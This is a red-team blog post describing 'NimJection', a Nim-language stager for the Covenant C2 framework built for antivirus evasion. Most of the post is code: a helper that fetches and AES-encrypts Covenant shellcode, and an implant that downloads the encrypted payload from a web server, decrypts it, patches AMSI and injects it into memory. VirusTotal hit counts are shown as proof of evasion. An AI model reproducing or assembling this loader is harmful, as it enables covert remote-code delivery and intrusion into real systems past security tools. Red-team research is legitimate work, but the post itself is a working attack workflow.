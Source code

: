 ```yaml
---
title: "NimJection"
categories:
  - Blog
tags:
  - NIM
  - Covenant
  - Red Teaming
---
```


Playing around with NIM for use as a covenant staging implant/AV evasion

So recently my twitter feed has been full of different people mentioning NIM and its virtues for you in staging implants for AV evasion - so I thought I’d have play with it over a weekend and see if I could get a workflow working for use with Covenant C2.

To start with, anyone interesting in using NIM offensively needs to look at Marcello Salvati’s [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim) repository. I would have been fully lost in the woods without it and ended up using a number of his templates for my final tooling – as you will see if you continue reading, I utilised it a lot…

The first step I took was to construct a quick POC to work out the manual workflow of injecting a Covenant stager using NIM. Handily this isn’t too hard as Covenant now comes with a DonutShellcode launcher, so I downloaded the resulting .bin file then used the PowerShell script created by [s3cur3th1ssh1t](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/) to create an appliable byte array.


![PowershellArray]({{site.url}}/assets/posts/nimjection/powershell.png)

Using the shellcode.nim template file in the OffensiveNim repo I then simply replaced the current shellcode with the above byte array shellcode.


![shellcode]({{site.url}}/assets/posts/nimjection/shellcode.png)

Compiling and running proves that the general POC process works, even if it is long winded.

```
nim c Shellcode.nim
```

![shellcode.exe]({{site.url}}/assets/posts/nimjection/shellcode.exe.png)

An additional issue with this is, whilst utilising NIM does reduce the AV detection rate, it’s far from what I’d call stealthy.

![shellcodeVT]({{site.url}}/assets/posts/nimjection/shellcodeVT.png)

The above instantly raised a few issue/considerations – even if I could streamline the workflow of creating a stager to execute the covenant shellcode, it’s going to get flagged by a lot of AV. The solution – encryption. In addition to encrypting/decrypting the Covenant shellcode, I decided I also wanted the added flexibility to grab both the initial Covenant shellcode as well as the encrypted payload either locally or from a hosted web server.

The rough workflow I therefore came up with was to create 2 applications:
1.	A helper program (PrepPayload) to take the standard Covenant shellcode, encrypt it and output a text file for the dropped implant.
2.	An implant file to drop on to a target (NimJection). Takes the output file from PrePayload, decrypts it and executes the resulting shellcode in memory.

I’ve outlined a rough overview of the various stages of the code below – I’m about as far from an expert in coding as possible so there’s definitely better ways to do things.

## Stage 1 – Grabbing the b64 Covenant Shellcode

This was a relatively easy stage apart from one issue – SSL. I experienced a lot of issues trying to get SSL to work on Windows when I’d cross compiled the nim executable on Unix. In the end I couldn’t find a decent solution for this – so I just stuck with compiling what I wanted to use on Windows on Windows.

### httprequest.nim
Simple nim script adapted from the OffensiveNim repo to take a URL and return the associated content.
```
import httpclient

proc httpRequest*(URL = ""): string =

    echo "[*] Using httpclient"
    var client = newHttpClient()
    return client.getContent(URL)
```

Reading from a file was even simpler
```
Var b64Payload = readFile(a.val)
```
With a.val being the file path passed from the cmdline.


## Stage 2 - Encryption
The resulting b64 decoded shellcode and encryption key (passed via cmdline) were then encrypted and written out to a file using minorly adapted version of the OffensiveNim encrypt_decrypt template – are you getting a pattern here.

### encrypt.nim

```
proc encrypt*(plaintext: seq[byte], envkey = ""): void =
    var
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        enctext = newSeq[byte](len(plaintext))

    # Create Random IV
    discard randomBytes(addr iv[0], 16)

    # Expand key to 32 bytes using SHA256 as the KDF
    var expandedkey = sha256.digest(envkey)
    copyMem(addr key[0], addr expandedkey.data[0], len(expandedkey.data))

    ectx.init(key, iv)
    ectx.encrypt(plaintext, enctext)
    ectx.clear()

    echo "IV: ", toHex(iv)
    echo "ENKEY: ", envkey

    var lines = [toHex(iv) ,toHex(enctext)]
    let f = open("encrypt.txt", fmWrite)

    for line in lines:
        f.writeLine(line)

    f.close()
    echo "ENCRYPTED PAYLOAD: ./encrypt.txt"
    echo "PAYLOAD SIZE = " & $(len(plaintext)) & " - Check decrypt.nim dectext and return array size matches"
```

With the overall workflow working like this:
```
for a in f:
    if a.key == "url":
        echo "Grabbing payload from: " & a.val

        if f[f.high].key == "enkey":
            enkey = f[f.high].val
        else:
            enkey = "Nimjection"

        b64Payload = httpRequest(a.val)
        shellcode = toByteSeq(decode(b64Payload))
        echo "Encrypting Payload..."
        encrypt(shellcode, enkey)
```
Where ‘f’ is a sequence of command line arguments. And that’s all there is to the PrepPayload really.


## Stage 3 Grab and Decrypt shellcode

Grabbing the shellcode and decrypting was simply a case of reusing the code I’d already adempted – and in the case of decryption just altering it slightly.

### decrypt.nim
```
import nimcrypto
import nimcrypto/sysrand
import strutils

func toByteSeq*(str: string): seq[byte] {.inline.} =
  ## Converts a string to the corresponding byte sequence.
  @(str.toOpenArrayByte(0, str.high))

proc decrypt*(envkey = "", payload = ""): array[43132,byte] =

    var
        dctx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        dectext: array[43132,byte]
        iv = nimcrypto.fromHex(splitLines(payload)[0])
        enctext = nimcrypto.fromHex(splitLines(payload)[1])
    

    var expandedkey = sha256.digest(envkey)
    copyMem(addr key[0], addr expandedkey.data[0], len(expandedkey.data))

    dctx.init(key, iv)
    dctx.decrypt(enctext, dectext)
    dctx.clear()
    
    return dectext
```
One issue I did encounter was the fact that when you declare a byte array in nim, you need to declare it’s size before its compiled. While this doesn’t cause a big issue at the moment, should someday the shellcode size increase it will cause issues. To help with this I’ve added an extra info line to PrepPayload which tells you the array size of the encrypted shellcode. If it differs from 43132, the following will need to be changed accordingly

```
proc decrypt*(envkey = "", payload = ""): array[43132,byte] =
```
```
dectext: array[43132,byte]
```

I’m sure there’s an elegant way around this by changing how the shellcode injection procedure works so it uses sequences – but I haven’t got there yet.


## Stage 4 Inject and execute
This was the simplest stage out of everything as the OffensiveNim repo already has template code for this which has the relevant code separated out into a procedure.

The final code workflow looks like this:
```
for a in f:
        if a.key == "url":
            var success = PatchAmsi()
            echo "[*] AMSI disabled: ",success

            if f[f.high].key == "enkey":
                enkey = f[f.high].val
            else:
                echo "No encryption key set...."
                break
            
            echo "Grabbing payload from: " & a.val
            echo "Decrypting payload..."
            injectCreateRemoteThread(decrypt(enkey, httpRequest(a.val)))
            break
```
I decided to throw in some AMSI bypassing just because – template code is also on OffensiveNim repo.

## and the result is…..


2 AV hits – I’ll take that. Especially as changing variable names etc from those in the standard templated might reduce that more.

![VT]({{site.url}}/assets/posts/nimjection/VT2.png)







